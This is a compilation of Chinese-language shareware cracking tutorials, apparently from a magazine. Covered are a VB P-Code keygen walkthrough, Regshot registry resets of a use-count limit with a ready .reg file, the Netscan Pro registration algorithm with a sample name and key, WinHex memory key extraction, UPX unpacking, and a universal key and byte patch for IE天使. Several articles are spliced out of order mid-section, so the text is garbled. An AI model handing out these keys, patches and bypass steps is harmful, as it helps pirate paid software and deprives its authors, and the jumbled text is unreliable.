我们常常遇到的有如下3种：BranchF、BranchT和Branch，BranchF相当于是 Branch somewhere if case is False，即如果假定的条件为假，就跳向所指向的地址，BranchT则恰恰相反，是如果指定的条件为真，就跳向所指向的地址，而Branch则是不管青红皂白，直接跳向目的地，应该很好理解的。

### （三）和设置函数所用到参数有关的

我们知道，汇编中函数想得到运行必须的参数，可以提前将数据压入堆栈，待函数处理的时候再弹出就可以处理了。P-Code中也是类似的，也需要将参数压入堆栈，然后就出来了下面这些缩略语：LitVarI2（压入一个双字节的变量）、LitVar_TRUE（同时一个顺便设置逻辑变量为真）、IldRf（压入参数）、IldI2（压入双字节数）、IldI4（压入四字节数）、IldR8（压入一个8字节实数）、ILdFPR4（压入一个4字节浮点数的指针）、ILdFPR8（压入一个8字节浮点数的指针）。

### （四）和数学运算有关的

形如：ADDXXX、SUBXXX、MULXXX、DIVXXX、NEXXX、EqXXX之类的语句，我想这些东西我们凭字面意思应该可以理解吧，这里就不多提了。

### （五）其他

要记住常用的数据类型大致有如下的几种缩写形式：str、I2、I4、R4、R8、Cy分别对应 integer、word、single、double 等，有一些函数需要我们用猜的。

由于P-Code指令太多，难以一个一个解释，所以我们这里就不多说了。好，回过来看看我们上面的代码都用到了哪些。VCallAd、VCallHresult和ImpAdCallI2都是这样的语句了，所以总共有5次函数调用，其中，前两次负责从UserName文本框中取得字符串，紧接着的两个是从SN文本框中取字符串，最后一个从名字中可以知道是负责处理注册码的了，当然中间我们省略了不少代码，这些代码对于我们破解这个软件甚至与做出注册机来都不是很有关系，所以完全可以不去看它，我们只看关键的。大家看这一句：

```
004A80BA: 0B ImpAdCallI2 modRegister
004A13D8h
```

它的含义就是调用一个函数来判断我们输入的注册码是否正确，我们可以现在进入这个调用，利用F8步入：

```
004A13D8: 4B OnErrorGoto 004A1489h
```

我们停在这里，在这里我要说明一点，在WKTV中，似乎跳转指令都被当成函数调用来处理了，所以在遇到跳转指令的时候必须按F8步过，如果是F10的话，WKTV会寻找相对应的返回地址（因为不是函数，当然不会找到），导致程序没有继续步进而是直接运行下去。所以，记住，遇到BanchX的时候务必要F8步过。下面是算法详细分析，由于版面所限，请各位读者参看光盘：


如果你只想要属于你的注册码，我们可以在4a1477这一行，看一下堆栈区最上面的两个地址，然后选Memory Dump，填入地址就可以看到注册码了。但这个小软确实简单，总共就一个循环操作，我们完全可以自己写注册机的。这个就交给读者自己搞定了！通过这个例子，我们可以看到P-Code的东西其实也不过如此嘛，不难！但是需要勤加练习来加强锻炼。就写到这儿，如果你有什么不会的问题，可以给我发邮件到：JustShowMe@hotmail.com，我会尽量给你完美的解答。

## 妙用Regshot 破解软件使用次数限制


文／hibiscus

碰到使用次数限制的软件该怎么办？如果你是解密高手当然不用愁了，只要拿出合适的“兵器”破解它就可以了。但对不太懂汇编的新手来说这条路行不通，总不能为了一个软件就学汇编吧？而且商业软件或共享软件都要求我们不得反汇编它们的软件，不得修改软件的代码。难道我们就不能既做好孩子，又能长期使用目标软件吗？本文要告诉大家一个方法，使得你不用反汇编软件，甚至根本不跟踪目标软件的运行，只是根据它留下的“脚印”，就可以让你可以突破共享软件的使用次数限制。

基础本来就不是很好的新手来说又增加了一层困难。而且，斗地主还防 SmartCheck、wkt vb debugger 等 VB 破解工具，如果你使用它们来加载斗地主，由于软件中内置有时间计数程序字段，所以它会通过计算某段代码运行时间来知道自身有没有被加载，发现软件被加载后它会自动关闭软件，停止运行。再有，在给斗地主脱壳后虽然能正常启动，但是点击其菜单按钮时就导致自动关机。

综上所述，对新手来说，要直接破解它还是有一定的难度的，而要想长期使用又必须破解其 30 次使用限制。怎么办呢？由于斗地主把使用次数记录在注册表中，因此只要能找到这个键值，把它改回最初的值就又有 30 次使用机会了。可是注册表那么多键，怎么才能知道斗地主把使用次数记录在哪里呢？使用 Regshot 就可以了。

### 一、目标软件介绍

还是让我们举个实例吧。不知道大家玩过“斗地主”这款游戏没有？斗地主是一种近来流行全国的扑克牌游戏。该游戏是共享软件，有 30 次使用和每次 7 周的限制。下载地址：http://down.96669.com/down/ddz1.zip。

### 二、软件的限制所在和破解思路

斗地主是用 VB 编写的程序，这类软件都有个特点，那就是静态反汇编看不到任何有用的东西，如果注册码不是明文对比则动态跟踪也很麻烦。该软件的注册码验证是：输入注册码时在注册表里写入一个 regcode，当下次启动该软件时调用 RegQueryvalueexA 来读出并对比注册码。也就是说，它不是直接对比软件的注册码，这对那些汇编基础本来就不是很好的新手来说又增加了一层困难。

除了上面的那些考虑，有时我们还有以下的需求：软件既然在我们的机器上运行，我们当然想随心所欲地控制它，这是绝大多数用户的正常想法和需要。但是怎样才能既能控制软件按需运行而又无需做逆向分析呢？如果软件是在注册表中做手脚，通过设定的标记来判定是否注册或在注册表中记录使用次数或时间，则使用 Regshot 这类注册表监测软件就可以“解决”它们。事实上，长期以来，Regshot 之类的注册表监测软件一直都是 Cracker 们的“排雷先锋”——在运行待破解的程序前运行此类软件，会让你心中有数，或者直接就可以解决“战斗”，十分的方便。

### 三、破解工具 Regshot 介绍

下面介绍一下我们要用到的工具：Regshot。

Regshot 是一款注册表比较工具，它几乎就是为了配合解密而生的！大家知道，在微软操作系统中，众多的设置都存放在注册表中，注册表是 Windows 的核心数据库，表中存放着各种参数，直接控制着 Windows 的启动、硬件驱动程序的装载以及一些 Windows 应用程序的正常运行。在应用软件安装时，有可能将一些必要的信息放进去，如安装时间、使用次数、注册码等，而这些信息正是我们感兴趣的，但是怎样才能监测到目标软件在注册表中建立了哪些键呢？Regshot 由此而生。

RegShot 的原理是这样的：在运行该软件之前作个记录（就等于是一个注册表快照），在运行它之后作个记录，然后比较二者的差别。很简单吧？通过 Regshot 我们可以了解、监视应用程序在注册表中的动作，我们可以利用它来监视应用软件在注册表中的变化，如在注册表中建立了哪些键值，在哪个位置，不要忽略了这些地方，这很可能就是共享软件的命根子——许多共享软件就是通过在注册表建立键值来比较软件是否注册，或将使用次数和时间限制写入注册表中。如果在运行软件前先运行注册表监视软件，那么它们在注册表中的一举一动都逃不过我们的眼睛！不过，手工检查实在是太麻烦了，此时，Regmon 等注册表监视工具就派上用场了——毕竟有它们的随时监视，比我们自己手工检查要简单得多、细致得多，也彻底得多。其实，这类软件还有 Regmon、RegSnap 等，但是它们比 Regshot 都大多了（Regshot 压缩文件只有 35K 大小），对付把使用次数和使用时间限制记录在注册表中的软件来说，用 Regshot 更简单、快捷。通过 Regshot，我们可以得到斗地主用来记录软件使用次数的注册表子键及其键值。


运行 Regshot 的主程序 regshot.exe，看它的界面非常简洁（图1）。首先选择“Plain TXT”，表示注册表比较结果保存为 txt 文件（选择 HTML document 则结果保存为 html 文件），然后按“1st Shot”按钮；在弹出菜单中选择“shot”（图2），Regshot 开始记录注册表中的键，等到 Regshot 做完快照之后再运行斗地主的主程序 DDZ.exe，当程序完全载入后马上返回到 Regshot 中，按下“2st Shot”按钮，然后选择“shot”，待注册表快照完毕以后，按下“cCompare”按钮，就可以看到斗地主主程序 DDZ.exe 运行时在注册表中所做的改动了！


所改动的键值就是斗地主的使用次数限制，结果如下所示（经过重新编写，否则记录的内容太多，可读性没有这么好）：

```
text
[HKEY_LOCAL_MACHINE\SOFTWARE\DDZN\infomation]
"LicenseNumber"="x"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion]
"ProgramelD"="X"
```

这里的“X”就是你已经使用过的斗地主的次数。怎么样，被我们发现它了吧？把“X”改为 0，就可以再使用 30 次了！不过每次都手动修改注册表太麻烦多了。我们可以动手制作一个 reg 文件，以后只要在到了 30 次使用次数之前运行一次就可以再使用 30 次，用记事本编辑如下内容的文件即可：

```
text
REGEDIT4

[HKEY_LOCAL_MACHINE\SOFTWARE\DDZN\infomation]
"LicenseNumber"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion]
```

### 四、具体步骤

到 http://regshot.ist.md/regshot161e.zip 下载 RegSHOT 的最新版本 1.61e5 Final，解压后运…

## Netscan Pro 3.3

## 注册算法分析全过程

Netscan这个工具大家可能都自己亲自用过，强大的功能让我们对其爱不释手。但是我们平时用到的版本可能都是有所限制的，好不容易在网上搜到个注册码，在欣喜若狂之后往往是倍受打击，找到一个可用的注册码难道就真的这么困难吗？本文作者就从该软件的注册算法入手对该软件进行了详细的破解分析，相信会给大家一些启迪。

文／风雨无阻【CCG】

一旦连接上网络，你就是与成千万万的电脑为邻。当你在浏览网页聊天时，你知道有哪些主机正在对你的电脑做些什么事情吗？Netscan Pro 是一套在 TCP/IP 通讯协议下的监视工具，帮助你监控你的电脑所有的网络连接活动，确保你在 Internet 或是 TCP/IP 架构下网络正常地安全运作，免于被外界侵犯。透过 Netscan Pro，你可以见到所有对你的电脑的连接清单，所有由外而入的活动都一览无遗。

### 破解专用工具

本破解过程用到了如下工具：

- fi3.1
- Ollydbg 1.09c汉化版
- W32DSM10

这几个软件可以到 http://www.pediy.com 下载。

Netscan pro 3.3下载地址：http://www.skycn.com/soft/7990.html。

```
"ProgrameID"="0"
```

注意要在reg文件的最后面要空上一行，然后把文件保存为 ddz.reg 文件即可。如果把该文件放到启动组中（即放在 C:\WINDOWS\Start Menu\Programs\启动中），还可以做到每次启动机器都能自动导入该 reg 文件，如图3所示，这样每次你使用斗地主之前，都会有 30 次使用机会。


图3

还可以对付那些使用期限已到，但即使反安装软件后再重新安装一次也无法再使用的软件。比方说，跑NT密码的软件 OphtCrack，该软件是共享软件，不注册的话有15天的时限，而且时间到后，即使反安装再安装一次也无用，你会发现怎么也不让你再试用了，软件剩余使用天数总是0。使用 Regshot 就可以破解它的这个限制，通过反安装前后两次对注册表的比较分析，我们可以知道它的限制 HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Network\Tmp，把 Tmp 删除就可以解决这个难题了。是不是很简单啊？

本文只是以突破斗地主的30次使用次数限制为例来说说，其他类似的共享软件也可以用同样的方法，因此以后再碰到这样的软件就再也不用担心了。

### 五、其他用途

用Regshot不仅能对付有使用次数限制的软件，

**编者注：** Netscan pro 3.3 已经在光盘中提供。

### 破解步骤

1. **检测软件是否加壳**

使用侦测软件 fi3.1 检测软件是否加壳，这是破解每个软件的第一步。

当然，如果你使用 TRW2000 或者是 softice 动态跟踪的话就不必了，如果使用 ollydbg 进行调试就必须保证软件无壳。

方法很简单，我们将可执行文件图标拖到 fi3.1 的图标上放开即可，经过检测，Netscan Pro 3.3 没有加壳，下面就可以继续我们的注册机之路了。

2. **运行程序，进行注册**

随便输入用户名和注册码，这时程序会弹出注册失败的对话框。

我们记下对话框的内容“注册名或注册码错误！”，然后打开 W32DSM 1.0 对可执行文件 Netscanpro.exe 进行反汇编，再点击“参考->串式数据参考”，在弹出的窗口中找到刚刚记下的注册失败对话框的内容，我们用鼠标双击就会转移到程序中，代码如下：

```
asm
00407160  E803080000        call 00407968
00407165  83C408            add esp, 00000008
00407168  85C0              test eax, eax
0040716A  7454              je 004071C0
0040716C  6A00              push 00000000

* Possible StringData Ref from Data Obj -> "你已经注册！"
0040716E  BABE174C00        mov edx, 004C17BE
00407173  66C745DC2000      mov [ebp-24], 0020
...
004071BE  EB4D              jmp 0040720D

* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|:0040716A(C)
004071C0  6A00              push 00000000
* Possible StringData Ref from Data Obj -> "注册名或注册码错误！"
004071C2  BADC174C00        mov edx, 004C17DC
004071C7  66C745DC2C00      mov [ebp-24], 002C
...
```

从上面的代码可以看到，程序运行到 00407160 时调用了一个函数，这个函数很有可能就是我们要找的关键 CALL，当然也可能是更上面的某个 CALL，一般关键 CALL 就在 0040716C 的跳转指令的前面不远处。

00407160 的 CALL 指令结果影响 EAX 寄存器的值，如果注册码正确，0040716A 处就不会跳转从而出现注册成功的对话框，如果不正确就会跳转到 004071C0，出现注册失败的对话框。

下面就要进行动态跟踪具体分析了。

3. **用 ollydbg 进行跟踪**

用 ollydbg 打开可执行文件，使用快捷键“Ctrl + G”，出现转到对话框，输入 407160，再按 F2，在 407160 处设置断点；再按 F9 运行程序，点击注册按钮，输入用户名和注册码，点击“注册”程序会被 ollydbg 拦截。

我们按 F8 单步跟踪（如果遇到 CALL 按 F8 就不会跟进，一般第一遍跟踪的时候不用跟进，只是弄明白每个 CALL 的具体作用是什么，找到我们所需要的关键 CALL），执行完 407160 处的语句以后，我们就会在右上的寄存器窗口发现正确的注册码保存在 EDX 中，这就说明此处的 CALL 是关键 CALL，下面就要对这个 CALL 进行详细研究了。

按 F9 回到程序，再次点击“注册”，程序被中断，我们这次按 F7 跟进这个 CALL，然后按 F8 单步跟踪，注意观察右上的寄存器窗口，程序运行到下面位置：

```
asm
004079C3  PUSH netscanp.00510548
ASCII "abcdefgh"
004079C8  CALL netscanp.00499DA4
004079CD  POP ECX
004079CE  CMP EAX, 8
004079D1  JNB SHORT netscanp.004079D7
004079D3  XOR EAX, EAX
004079D5  JMP SHORT netscanp.00407A2A
004079D7  PUSH netscanp.00510548
/Arg1 = 00510548 ASCII "abcdefgh"
004079DC  CALL netscanp.0040789C
004079E1  POP ECX
004079E2  MOV EDX, EAX
004079E4  MOV EAX, netscanp.005105AC
ASCII "987654321!"
004079E9  MOV CL, BYTE PTR DS:[EAX]
004079EB  CMP CL, BYTE PTR DS:[EDX]
```

```
asm
00407A03  |>\JNZ SHORT netscanp.004079E9
00407A05  |>\JE SHORT netscanp.00407A0B
00407A07  |>XOR EAX,EAX
00407A09  |>JMP SHORT netscanp.00407A2A
......
00407A25  |>MOV EAX,1
......
```

对上面的代码进行分析后可知，004079C3 处送入用户名，接下来的一个 CALL 是计算用户名的长度。这一点一定要注意，一般的软件对用户名的长度都有要求，从 004079CE 处的语句可以看出，这个软件对用户名长度的要求是大于或等于 8 位，接着执行，执行完 4079DC 的语句以后就会在右上窗口发现正确的注册码，这就说明 4079DC 处的 CALL 就是计算注册码的函数调用，接下来的一个循环就是真假两个注册码的比较，比较完后，根据比较结果决定是否执行 “xor eax,eax” 语句，从而设置 EAX 寄存器的值，下面我们跟进 4079DC 的 CALL，相应代码和分析如下所示：

```
asm
004078B3  |>MOV ESI,netscanp.004C207C    ; 下面的字符串就是原始字串
; ASCII "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYYzabcdefghijklmnopqrstuvwxyz!"
004078B8  |>LEA EBX,DWORD PTR SS:[EBP-C]
......
004078E7  |>JGE SHORT netscanp.0040795C
; 下面的循环开始进行注册码的计算
004078E9  |>PUSH EDI
004078EA  |>MOV ECX,DWORD PTR SS:[EBP-10]
004078ED  |>MOVSX EAX,BYTE PTR DS:[ECX]   ; EAX = F(i)
004078F0  |>PUSH EAX
; 下面的 CALL 含有浮点操作
004078F1  |>CALL netscanp.0040760C
k = (int)((cos(F[i]*7.5+i*4.5)+1)*52)
......
00407933  |>POP ESI
00407934  |>MOVSX EDX,BYTE PTR SS:[EBP+EAX-50]   ; 将字符串表查出来的字符取出
00407939  |>PUSH EDX
; EAX = k%0x3e，EBP 是固定值
......
0040794D  |>MOV EAX,DWORD PTR DS:[EBX]
; EAX = k / 0x3e

```

```
asm
0040794F  |>TEST EAX,EAX
; 如果 EAX == 0，则读取用户名的下一位
00407951  |>\JNZ SHORT netscanp.004078FD
; 否则跳转到 4078FD，继续
00407953  |>INC EDI
; EDX == EDX + 1
00407954  |>INC DWORD PTR SS:[EBP-10]
00407957  |>CMP EDI,DWORD PTR SS:[EBP-4]
0040795A  |>\JL SHORT netscanp.004078E9
; 跳转到 4078E9 读取下一位用户名
```

跟进以后马上就发现了一个字符串，这就让我们联想到它很有可能使用查表的方法计算出注册码，以后的分析证明了这个想法。分析代码的时候有个技巧：要特别注意代码中的循环，一般软件注册算法就是根据用户名的每一位计算出注册码，这样的话必定会用到循环。这个软件在 4078ED 处每次循环传入用户名的一位，计算出部分注册码，然后组合起来就是整个注册码了，4078FE 处函数用到了浮点命令，这对于初学者来说有一定的难度，在此就不具体分析给出函数的作用。

如果用 F(i) 表示用户名的第 i 位，那么函数返回的结果是：

`k = (int)((cos(F[i]*7.5+i*4.5)+1)*52);`

从 4078FD 处开始，根据上面的结果在字符串中的对应位置找出字符作为注册码。在上面的代码中有注释，有些用户名字符可能会计算好几位注册码。在 00407934 将字符串表查出来的字符取出，保存起来就组成了整个注册码。

这里给大家一个测试用的用户名和注册码：

用户名：abcdedgh　　注册码：11YA5PrJ1

> ### 后记

总的来说，这个软件注册算法不是很复杂，适合想从“爆破”专家转行到注册码方面的朋友练习。这算是单表查询类软件中较简单的了，就是有一个 CALL 使用了浮点指令，可能有点点麻烦，不过我想既然大家都是搞这一行的，就应该知道“破解不能怕麻烦”，破解本来就是麻烦的事。还有，搞破解不能只看不练，你练习得多了，自然就有了自己的技巧，相信你很快就能熟练地实践大部分软件的注册算法从而写出注册机了，祝大家早日成功！

## 一分钟得到

## 木马终结者的注册码

大多数情况下我们要破解软件，都需要运行专门的工具如 softice、trw2000 或 Ollydbg、win32dasm、smartcheck 等，对于新手来说，使用这些软件非常麻烦，而且很多人并不懂得汇编语言，让他们面对反汇编的那密密麻麻的代码真是一种折磨，其实有些情况下并不需要那么麻烦，只要简单的几步无需超过一分钟就可以破解一款软件！也许你不信，但的确有这种情况存在！当然了，我们不是神仙无法猜到软件注册码，所以还是需要一款合适的“兵器”才行，它就是 WinHex！

WinHex 是一款优秀的十六进制文件与磁盘编辑软件，它除了可用来对文件以 Hex 或 ASCII 码格式进行编辑和修改、对磁盘磁区编辑以外，利用它独具特色的内存编辑功能还可以帮我们免费注册软件！不过有个小小的前提，那就是软件的注册码必须是在内存中以明文方式进行对比才行。你可以在这里下载到 WinHex 的最新版 10.75 SR-1：http://hnpy.onlinedown.net/down/winhex.zip。

以木马终结者为例，我们来说说如何发现它的注册码。先来介绍一下我们要破解的软件木马终结者，它是一款专门防制特洛伊木马的软件，木马终结者主要是通过对你的电脑端口进行全方位扫描，来发现那些狡猾的木马。除此以外，木马终结者还可以关闭指定端口，让木马无用武之地，为你的网络安全保驾护航。木马终结者是共享软件，下载地址：http://as.onlinedown.net/down/notrojan2.zip，文件大小 242KB。

木马终结者是共享软件，必须注册才没有功能限制，所以我们要破解它，得到软件的注册码。首先，运行木马终结者主程序 NoTrojan2.exe，界面如图 1 所示，用鼠标点击主界面窗口上方的“注册”，会弹出要你注册的对话框（图 2），在“姓名”栏中随意输入任何信息，如：feifei，在“注册码”栏中输入任意注册码，如：1984518，然后点击“OK”按钮，会弹出“注册码错误”的提示框，请注意一定不要点击“OK”关闭该对话框，因为我们要利用 WinHex 来查找注册码，如果关闭该对话框，

WinHex 就无法发现注册码了。

现在，运行 WinHex，在默认情况下会出现“启动中心”窗口，点击“打开 RAM(R)”按钮或按 Alt+F9 组合键，会出现“编辑虚拟内存”窗口（图 3），在该对话框中选中 Notrojan2，然后点击 Notrojan2 前面的“+”，展开它，看到其中的“主要内存”了吗（图 4）？双击它之后就会把木马终


图 1


图 2


图 3

## 撰稿人宝典破解

文/王智慧

笔者虽然还是一个学生，但平时也向一些杂志投稿去自己的拙作，自然而然地会跟一些字处理软件打交道。经过一段时间的反复使用比较，向大家推荐一个软件——撰稿人宝典，因为它有着其他软件所没有的功能并且这些功能还挺有用的。今天是来讨论软件加密与解密这一对冤家，作本文的目的只是用于研究软件破解方法并与大家交流，用于非法用途概不负责！

在破解前有必要对软件的功能和应用简单地了解。先来简单了解一下撰稿人宝典“其人”。撰稿人宝典是一款专门为作家、自由撰稿人等从事写作的用户（比如说笔者俺）设计的字处理软件。因为普通媒体征稿时一般要求纯文本格式，所以要用 Word，

WPS这类专业软件就有些“杀鸡用牛刀”了。而撰稿人宝典除了字处理软件常用功能外，还针对撰稿人的特点，专门为撰稿人设计了很多功能，方便撰稿人使用！要是你觉得对你非常有用的话那就付28元注册，支持国产软件，支持一下软件作者。

好了，开始破解工作吧！首先对软件进行加密分析，确定软件是否使用加密、使用何种加密软件加密等（要是你对软件的加壳脱壳还不了解的话可以参阅有关文章）。为了方便下面的操作，先把撰稿人宝典.exe 文件拷贝一份放到 D:\1.exe。下面就跟着一步步破解吧。第一步，先用 Language2000 查不出来（不


接下来点击菜单栏中的“搜寻”→“寻找文字”，在弹出的对话框中填入我们刚刚输入的假注册码“1984518”（图5）；注意输入时不要引号，点击“确定”按钮，就可以在内存中找到这个假注册码（图6），在它上方不远处看到“471862”了吗？它就是我们要找的软件的真正注册码！试试看，用该注册码来注册，

完全没有问题，大功告成！看看表不到60秒，很有成就感哦！

最后提醒大家，用 WinHex 破解软件待解密的软件的注册码必须以明文方式在内存中对比，而且输入假注册码后出现错误对话框时，不要关闭该窗口，而是应该立刻运行 WinHex，只要能注意到这两点就可以了。对于那些对解密不是很熟悉却又很感兴趣的朋友来说，使用本文介绍的方法可以让你能快速得到软件注册码。

信你试试哦，因为 Language2000 好久没升级了，笔者改用 PEiD 侦测，如图1所示；可以看出是使用 upx 加密压缩。知道是用何种加密软件加密，下一步大家应该都知道了吧，找一“对口”软件（就是专用脱壳软件）脱壳解密。

第二步，不过很好 upx 加密软件自己有解压解密功能，你可以直接用 upx -d 1.exe -o 2.exe 命令解压缩，如图2所示（upx 命令参数还不懂的话可以查看帮助，或查阅有关资料哦）。解压缩后的文件有 1.28M 大小，原文件可是只有 473KB。对解压后文件用 Language2000 查看，可以看出是使用 Delphi6.0 编写的。

第三步，拿来脱壳后的文件然后干什么？当然是进行粗跟踪！打开软件，点击“注册”，填写用户名；点击“立即申请”来申请注册申请码，得到一个注册申请码（笔者测试过了这个申请码跟机器有关）。笔者个人认为这种序列号加密技术挺好的，因为不像一些只有用户名的，还有再加上有两段注册认证码给一些内存型的注册机以打击，可能是笔者笨抽没能写出内存型的注册机了。随便填入两段认证码，比如 123456 和 7890123。记住这些内容：标题为“注册码错误”，内容为“对不起，注册码错误！”，是 NAG 型的软件，是软件序列号加密的一个大忌吧。

第四步，打开工具箱中的 Wdsm V10 增强版，点击“参考(R)”菜单下的“串式数据参考(S)”菜单打开“字符串列表”对话框。


从列表中找到刚才记住的那些字符串“注册码错误”，双击它，来到如下代码：

```
Referenced by a (U)nconditional or (C)onditional Jump at Addresses:
:00508434(C), :0050847B(C)

:005086CB  6A10                push 00000010
Possible StringData Ref from Code Obj -> "注册码错误"

:005086CD  68E0885000          push 005088E0
Possible StringData Ref from Code Obj -> "对不起，注册码错误！"

:005086D2  68EC885000          push 005088EC
:005086D7  8BC3                mov eax, ebx
:005086D9  E89A9CE4FF          call 00452378
:005086DE  50                  push eax
```

从这一行信息：Referenced by a (U)nconditional or (C)onditional Jump at Addresses: :00508434(C), :0050847B(C) 可以看出有两个地方有条件地转到这个地方，可以猜测验证认证码错误时跳转到这的，你可以点击“跳转(G)”菜单下的“到代码位置(L)”填入 00508434 点击“确定”来到如下代码：

```
:00508426  E8...              call 00507D40   ; 计算认证码1的 call
:0050842B  8B55EC             mov edx, dword ptr [ebp-14] ; 如果用 TRW2000 的话，执行这句后可以下命令 edx 可以看到你的认证码1
:0050842E  58                 pop eax        ; 输入的用户名
:0050842F  E8B4C4EFFF         call 004048E8  ; 比较验证子程序
:00508434  0F8591020000       jne 005086CB   ; 设置断点
```


## 扒出隐藏在 IE 天使中的万能注册码
文／何剑

目前有许多共享软件必须注册才能使用其全部功能，这本来无可厚非，毕竟那是作者花费了许多时间和精力写出来的，但许多软件作者不大注意保护自己的软件，导致软件被别人破解。其实，有些时候实在不能怨破解者，因为有些软件的保护真的太简单了，竟然有万能注册码存在！这样的软件只能说作者在保护方面不够用心了。比方说，我们今天要说的 IE 天使就有万能注册码存在，今天我们就谈谈如何发现它的万能注册码。

IE 天使是一款出色的 IE 修改器，它可以修改 IE 右键菜单，对 IE 进行个性化设置，而且可以保护你的个人隐私，防止远程修改注册表，同时可以查询自己的主机名和 IP 地址，对 IE 工具栏以及 QQ 安全，如清除 QQ 聊天记录等也可以进行设定。该软件是共享软件，要使用全部功能必须注册才行，本来不想破解它，但无意中发现了该软件有万能注册码，故写出来提醒大家注意。

首先，从这里下载 IE 天使：http://as.onlinedown.net/down/iea22.exe，目前最新版本为 2.2，大小为 478KB。安装完毕后运行 IE 天使，你会看到如图所示界面（图1），各个功能尽在眼前。试试注册该软件，点击“注册”，输入注册码 13800138000（图2），再点击“注册”，会弹出一个对话框提示我们：注册码错误！请重新输入（图3），胡乱输入的当然不会注册成功，记住这个提示信息下面我们要用到它。


用侦测加壳软件 FI、language2000 等检查 IE 天使，发现该软件并没有加壳，这样就简单多了。请出我们的静态反汇编利器 W32DASM 反汇编它，待反汇编完毕后，点击“参考”菜单中的“串式参考”，找到“注册码错误！请重新输入”这条信息（图4），双击之，会来到如图所示这里（图5），这就是软件的核心比较区了。为方便大家查看、分析，我将图中的代码列出来，并加了注释，如下所示：

```
asm
“你，注册成功！” <--------- 注册成功后的提示信息
0049AB17  B8F0AB4900    mov eax, 0049ABF0
// 来到这里就成功了
0049AB1C  E84F5EF9FF    call 00430970   // 走过这一行会显示“恭喜你，注册成功！”
0049AB21  BA02000080    mov edx, 80000002
0049AB26  A160FC4900    mov eax, dword ptr [0049FC60]
0049AB2B  E84ACF9FFF    call 004357D4
0049AB30  33C9          xor ecx, ecx    // ECX 清零

* Possible StringData Ref from Code Obj -> '\software\冰叶软件\IE天使XP\' <--------- 写入注册表

```


图5

```
asm
* Possible StringData Ref from Code Obj -> 'iesafeoflinye2002' <--------- ★这是什么？
0049AAFF  BAB4AB4900    mov edx, 0049ABB4
// 把 0049ABB4 送入 EDX 中
0049AB04  E8A390F6FF    call 004044AC   // 经分析这是注册码的比较 CALL

* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|0049AA97(C)

0049AB09  740C          je 0049AB17     // 这里如果不跳则注册失败

* Possible StringData Ref from Code Obj -> '注册码错误！请重新输入。' <--- 我们记住的软件提示信息
0049AB0B  B8D0AB4900    mov eax, 0049ABD0
0049AB10  E85B5EF9FF    call 00430970   // 显示注册码错误的 CALL
0049AB15  EB72          jmp 0049AB89

* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|0049AB09(C)

* Possible StringData Ref from Code Obj -> '恭喜...'

```

如果想得到注册码，可以进入偏移地址0049AB04处的关键CALL，或用TRW2000动态跟踪，在偏移地址0049AB04这一行设定断点（用BPX 0049AB04下断），待代码执行到这一行时输入D EDX就可以看到软件的注册码。如果要暴力破解，只要将偏移地址0049AB09那一行的je 0049AB17(740C)改为jmp 0049AB17(EB0C)，也就是用16进制文件编辑器UltraEdit打开IE天使的主文件IE天使XP.exe，然后按Alt+F3调出“查找”对话框，然后搜寻：740CB8D0AB4900，找到后把其中的“74”改为“EB”即可，这样无论你输入任何字符都可以注册成功！

不过更令人感兴趣的是，以上代码中的第一行中的“iesafeoflinye2002”，它是什么呢？如果你用TRW2000动态跟踪就会知道这是软件的注册码！如果你没有动态跟踪过，凭直觉我们也可以猜一猜，在注册码比较CALL的上面出现的这一字符串是干什么用的，八成就是软件的注册码！输入试试，点击“注册”，显示：恭喜你，注册成功（图6）！呵呵，原来这就是软件的万能注册码！任何人都可以使用该注册码成功注册自己手头上的IE天使，感兴趣的朋友赶快试试吧。


图6

目前，有许多软件有这样的万能注册码，如QQ黑眼、冰盾等等，这说明我们的国产软件在自我保护方面做得还不够好，希望作者们能加以注意，改进算法，增强保护，愿我们的国产软件越来越好！


## 一款pdf转换工具的破解
文／一无所有

本文旨在通过一个简单的例子介绍软件破解方面的知识及相关的工具的基本使用方法，各个软件又有其更深层次的应用。在让大家了解软件是如何被破解的，而这里面的知识还有很多，需要大家自我的学习和提高。本例中使用的软件可以在 http://www.pediy.com 下载。

### 一、分析软件

拿来破解的软件是一个 pdf 转换工具，不注册有 10000 次使用次数限制，生成的 HTML 文件会标明 unregisted 的字样。FI 分析软件没加壳，是用 VC 编写的。用 filemon 分析软件每次启动都检验 c:\windows\system\Pdf2htm.dat 文件，判断软件是否注册。用 winhex 打开文件，好像是空的，不对，只有一个数值 6，有点眼熟，对了 10000-6=9994，这不是软件启动时的提示吗？好像关系很微妙，说句实话有时候感觉的确很重要，不过也是建立在分析的基础上，你看看此文件被修改的时间就应该会联想到这里的。

```
asm
0040549D 8A1E mov bl, byte ptr [esi] bl='D'
0040549F 8ACA mov cl, dl cl='1'
004054A1 3AD3 cmp dl, bl 比较 dl 与 bl
004054A3 751E jne 004054C3 不相等就跳到 004054C3，会弹出错误的对话框
004054A5 84C9 test cl, cl
004054A7 7416 je 004054BF 相等就跳
004054A9 8A5001 mov dl, byte ptr [eax+01] dl='2'
004054AC 8A5E01 mov bl, byte ptr [esi+01] bl='C'
004054AF 8ACA mov cl, dl cl='2'
004054B1 3AD3 cmp dl, bl
004054B3 750E jne 004054C3 不相等就跳到 004054C3，会弹出错误的对话框
004054B5 83C002 add eax, 00000002
004054B8 83C602 add esi, 00000002
004054BB 84C9 test cl, cl
004054BD 75DC jne 0040549B 返回 0040549B

```

### 二、用trw2000(softice)破解软件

Ctrl+N 激活 trw2000，下断点 bpx hmemcpy，F5 返回，随便输入个数字，如 123456789，按“确定”后返回 trw2000，bc * 清除所有断点，pmodule 来到程序领空，F10 单步执行，d esi 看到注册码了吗？不用怀疑，就是那么容易。再按一下 F10，d eax 可以看到你输的错误的注册码！下面是注册码的比较过程，很容易就可以看懂。

```
asm
00405492 BE78184400 mov esi,00441878 中断在这里
00405497 8D442450 lea eax, dword ptr [esp+50] d eax 可以看到注册码，d eax 可以看见你输的注册码
* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|:004054BD(C)

0040549B 8A10 mov dl, byte ptr [eax] dl='1'

```

是不是很容易啊！其实关键是找到注册码的比较部分，一般在跳到错误信息的前面那个 CALL 里。

### 三、制作注册机

